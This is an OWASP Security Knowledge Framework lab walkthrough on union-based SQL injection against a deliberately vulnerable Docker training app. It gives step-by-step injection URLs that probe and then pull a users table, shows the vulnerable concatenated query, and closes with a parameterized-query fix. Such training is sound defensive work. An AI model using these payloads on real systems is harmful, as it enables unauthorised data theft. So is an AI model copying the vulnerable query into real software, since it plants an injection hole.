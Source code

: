 # SQLI (Union)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:sqli
```

```
$ sudo docker run -ti -p 0.0.0.0:5000:5000 blabla1337/owasp-skf-lab:sqli
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI/1.png)

```
http://0.0.0.0:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI/2.png)

```
http://0.0.0.0:5000/home/1'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute('SELECT pageId, title, content FROM pages WHERE pageId='+pageId)
```

### Step3

Now we can also use logical operators to determine whether we can actually manipulate the SQL statements.

We start with a logical operator which is false (and 1=2). The expected behaviour for injecting a false logical operator would be an error.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI/3.png)

```
http://0.0.0.0:5000/home/1 and 1=2
```

After that we inject a logical operator which is true (and 1=1). This should result in the application run as intended without errors.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI/4.png)

```
http://0.0.0.0:5000/home/1 and 1=1
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI/5.png)

```
http://0.0.0.0:5000/home/1 union select 1
```

This query results in an error, this is due to the fact that the original query started with 3 columns namely\
\* pageId\
\* title\
\* content

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI/6.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI/7.png)

```
http://0.0.0.0:5000/home/1 union select 1,2,3
```

Notice how "title" and "content" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take an educated guess for the table we want to steal sensitive information from. Again we can see if we try to query a non existent table we get an error. For a correct table we see the application function as intended.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI/8.png)

```
http://0.0.0.0:5000/home/1 union select 1,2,3 from user
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI/9.png)

```
http://0.0.0.0:5000/home/1 union select 1,2,3 from users
```

## Mitigation

SQL Injection can be prevented by following the methods described below:

Primary Defenses:

First step: White-list Input Validation Second step: Use of Prepared Statements (Parameterized Queries)\\

Additional Defenses:

Also: Enforcing Least Privilege Also: Performing Allow-list Input Validation as a Secondary Defense

In this case, we have presented a SQLi code fix by using parameterized queries (also known as prepared statements) instead of string concatenation within the query.

The following code is vulnerable to SQL injection as the user input is directly concatenated into query without any form of validation: PATH:/SQLI/models/sqlimodel.py

```
cur = db.execute('SELECT pageId, title, content FROM pages WHERE pageId='+pageId)
```

This code can be easily rewritten in a way that prevent the user input from interfering with the query structure:

```
cur = db.execute('SELECT pageId, title, content FROM pages WHERE pageId=?', (pageId,))
```

Can you try to implement input validation or escaping?

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing_for_SQL_Injection\_(OTG-INPVAL-005)](<https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OTG-INPVAL-005)>)
